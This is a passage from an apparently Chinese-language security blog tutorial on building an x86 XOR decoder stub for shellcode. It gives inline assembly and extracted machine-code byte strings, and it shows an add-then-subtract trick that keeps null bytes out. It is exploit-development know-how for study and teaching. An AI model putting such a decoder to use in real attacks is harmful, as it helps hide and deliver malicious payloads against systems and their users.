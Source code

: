 


提取出机器码为
`"\x81\xEF\xF0\x08\x00\x00\x8B\xC7\x83\xC0\x28\x33\xC9\x8A\x1C\x08\x80\xF3\x44\x88\x1C\x08\x41\x80\xFB\x91\x75\xF1"`

如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-3-2/2-7.png)

此时又出现\x00字符，实际使用时会被提前截断，所以汇编代码需要作进一步优化：

通过先加后减两步操作，来避免shellcode出现\00字符

**注：**

先减后加会造成越界

先加后减两步操作如下：

`EDI-0X000008F0h=0X0012F720+0X11111111h-0X111119A1h`

由于shellcode前面多了填充数据，所以解码器的偏移也要重新计算，偏移=填充数据长度+解码器长度=0x34+0x26=0x5A

对应完整汇编代码如下：

```
void main()
{
	__asm
	{
		add edi,0X11111111
		sub edi,0X111119A1
		mov eax,edi
		add eax,0x5A
		xor ecx,ecx
decode_loop:
		mov bl,[eax+ecx]
		xor bl,0x44
		mov [eax+ecx],bl
		inc ecx
		cmp bl,0x91
		jne decode_loop
	}
}
```

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-3-2/2-8.png)

如上图，提取机器码为

`"\x81\xC7\x11\x11\x11\x11\x81\xEF\xA1\x19\x11\x11\x8B\xC7\x83\xC0\x5A\x33\xC9\x8A\x1C\x08\x80\xF3\x44\x88\x1C\x08\x41\x80\xFB\x91\x75\xF1"`

如下图，寻址正常，shellcode成功执行

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-3-2/2-9.png)
